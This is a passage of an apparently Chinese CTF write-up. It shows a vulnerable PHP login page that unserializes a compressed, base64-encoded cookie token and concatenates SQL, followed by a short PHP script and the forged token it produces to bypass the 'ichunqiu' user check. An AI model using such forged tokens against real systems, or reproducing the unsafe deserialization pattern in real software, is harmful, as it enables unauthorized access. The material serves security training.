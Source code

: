<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br></pre></td><td class="code"><pre><span class="line">&lt;?php</span><br><span class="line">	include 'common.php';</span><br><span class="line">	$requset = array_merge($_GET, $_POST, $_SESSION, $_COOKIE);</span><br><span class="line">	class db</span><br><span class="line">	{</span><br><span class="line">		public $where;</span><br><span class="line">		function __wakeup()</span><br><span class="line">		{</span><br><span class="line">			if(!empty($this-&gt;where))</span><br><span class="line">			{</span><br><span class="line">				$this-&gt;select($this-&gt;where);</span><br><span class="line">			}</span><br><span class="line">		}</span><br><span class="line"></span><br><span class="line">		function select($where)</span><br><span class="line">		{</span><br><span class="line">			$sql = mysql_query('select * from user where '.$where);</span><br><span class="line">			return @mysql_fetch_array($sql);</span><br><span class="line">		}</span><br><span class="line">	}</span><br><span class="line"></span><br><span class="line">	if(isset($requset['token']))</span><br><span class="line">	{</span><br><span class="line">		$login = unserialize(gzuncompress(base64_decode($requset['token'])));</span><br><span class="line">		$db = new db();</span><br><span class="line">		$row = $db-&gt;select('user=\''.mysql_real_escape_string($login['user']).'\'');</span><br><span class="line">		if($login['user'] === 'ichunqiu')</span><br><span class="line">		{</span><br><span class="line">			echo $flag;</span><br><span class="line">		}else if($row['pass'] !== $login['pass']){</span><br><span class="line">			echo 'unserialize injection!!';</span><br><span class="line">		}else{</span><br><span class="line">			echo "乱码";</span><br><span class="line">		}</span><br><span class="line">	}else{</span><br><span class="line">		header('Location: index.php?error=1');</span><br><span class="line">	}</span><br><span class="line"></span><br><span class="line">?&gt;</span><br></pre></td></tr></tbody></table>

  
然后就是代码审计了，从代码中可以看到：  

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line">需要满足 $login['user'] === 'ichunqiu'</span><br><span class="line">而user被$login = unserialize(gzuncompress(base64_decode($requset['token'])));处理过</span><br></pre></td></tr></tbody></table>

  
那么就给他反过来执行一遍：  

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br></pre></td><td class="code"><pre><span class="line">&lt;?php</span><br><span class="line">$a = array("user" =&gt; "ichunqiu");</span><br><span class="line">$a = base64_encode(gzcompress(serialize($a)));</span><br><span class="line">echo $a;</span><br><span class="line">?&gt;</span><br></pre></td></tr></tbody></table>

  
得到了一串base64编码：`eJxLtDK0qi62MrFSKi1OLVKyLraysFLKTM4ozSvMLFWyrgUAo4oKXA==`
